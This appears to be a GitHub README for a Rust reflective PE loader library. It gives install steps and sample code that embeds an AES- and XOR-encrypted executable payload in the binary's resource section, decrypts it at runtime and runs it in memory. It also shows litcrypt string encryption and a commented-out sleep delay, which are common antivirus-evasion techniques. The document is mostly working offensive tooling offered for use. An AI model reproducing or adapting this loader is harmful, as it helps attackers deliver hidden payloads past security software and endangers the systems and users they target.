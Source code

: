 ### reflective_loader_rs

Installation
- Clone the Repository
```PowerShell
git clone https://github.com/tftftftft/reflective_loader_rs.git
```
- Add to dependencies ( Cargo.toml )
use runpe::runpe::reflective_loader;
```Rust
[dependencies]
rspe_lib = { path = "../rspe_lib" }
```


Don't forget to set LITCRYPT_ENCRYPT_KEY var. 
[Repo](https://github.com/anvie/litcrypt.rs)

```PowerShell
$env:LITCRYPT_ENCRYPT_KEY="myverysuperdupermegaultrasecretkey"
```
Sample code demonstrating how to use the library is commented within the lib.rs file.

```rust
#[link_section = ".rsrc"]
static DATA: &[u8] = include_bytes!("..\\payload_debug_xor_aes.exe");

// Main function
#[no_mangle]
 pub extern "C" fn main(_argc: isize, _argv: *const *const u8) -> isize {
     // let now = Instant::now();

     // make_sleep(5).expect("sleep failed");
     // println!("{}", now.elapsed().as_secs());

     let key = "16 BYTES KEY"; //String

     // Convert to bytes and create key_array in one step.
     let key_array: [u8; 16] = key
         .as_bytes()
         .try_into()
         .expect("Failed to convert key into a 16 byte array");

     let cipher = Cipher::new_128(&key_array);
     let decrypted_aes = cipher.cbc_decrypt(&key_array, DATA);
     let decrypted_xor = xor_decrypt(&key_array, &decrypted_aes);

     unsafe {
         reflective_loader(decrypted_xor.clone());
     };

    0
}
```

Environment Support
- This library supports a no_std environment.
